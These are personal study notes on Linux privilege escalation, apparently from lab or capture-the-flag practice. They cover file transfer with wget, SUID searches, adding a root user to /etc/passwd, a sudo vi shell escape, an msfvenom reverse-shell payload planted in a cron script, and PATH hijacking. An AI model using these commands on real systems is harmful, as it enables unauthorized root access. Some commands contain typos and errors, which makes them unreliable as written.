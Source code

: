 # Privilage Escalation
- Horizontal Escalation vs Vertical Escalation

#### Uploading a file to the target computer
- There are two ways to get LinEnum on the target machine. The first way, is to go to the directory that you have your local copy of LinEnum stored in, and start a Python web server using **python3 -m http.server 8000** [1]. Then using **wget** on the target machine, and your local IP, you can grab the file from your local machine [2]. Then make the file executable using the command **chmod +x FILENAME.sh**
  - python3 -m http.server 8000 - local machine
    - This starts the listener
  - wget {LOCAL MACHINE IP ADDRESS}:{PORT}/FILENAME.sh - target machine
  - chmode +x FILENAME.sh

- If transferring the file fails
  - copy the file script to a Vi or Nano - save the file with an .sh file extention
  -chmod +x FILENAME.sh

#### Running the script
- travel to the folder containing the file
- ./FILENAME.sh

### Finding SUID/GUID capable files manually
- find / -perm -u=s -type f 2>/dev/null

### Creating a hash password
- openssl passwd -1 -salt [salt] [password]
- adding a new user from an ecalated account
  - FORMAT: username:passwordhash:0:0:root:/root:/bin/bash
  - EXAMPLE(new:123(salted w/'new')): new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
### Modifying the /etc/password file
- use vi /etc/passwd
  - this required looking at a cheetsheet - as vi is not intuitive to use

## Checking privlidges
- everytime you own the box and get root or sper user access run the follwoing to check command accesse
  - sudo -l
- this can be run to determine what access you have once you gain a foothold
  - sudo vi
    - this opens vi as root
  - :!sh
    - opens a shell in vi

### Explpoiting Crontab
- See all running cron jobs on the machine 
  - cat /etc/crontab
- In this example we had a system process running a script with root user acces every 5 minutes, I created a payload with msfvenom for a reverse shell and tranfered it over to the target machine - and then set up a listener on my own until the allotted time went by and then it autoconnected my reverse shell
- Commands
  - msfvenom -p cmd/unix/reverse_netcat lhost={Local IP} lport=8888 R > myFile.exe
  - set up local server
    - pyhton3 -m http.server 8000 (local)
    - wget {IP}:{port}/filename
  - echo myFile.exe > autoscript.sh
  - nc -lvnp 8888
  - after 5 minutes I recieved a ping - and my shell connected at root

### Path Variables
To check the path to your location
  - echo $PATH
- We can set up a fake file somewhere and then change the route that we want the user to go when they execute a command - in this example a 'script' file is executing the 'ls' comand everytime it is ran
- set up a imitation executable (/tmp) folder is a good locaiton
  - echo '[whatever the command we want to run is]' > [name of the executable we are imitating]
    - EXAMPLE: echo '/bin/bash' > ls
    - set file to executable
      - chmod +x ls
    - change path to the tmp file when to original file is executed *MAke sure to make a note of the original path location to clean up when you are through
      - export PATH=/tmp:$PATH


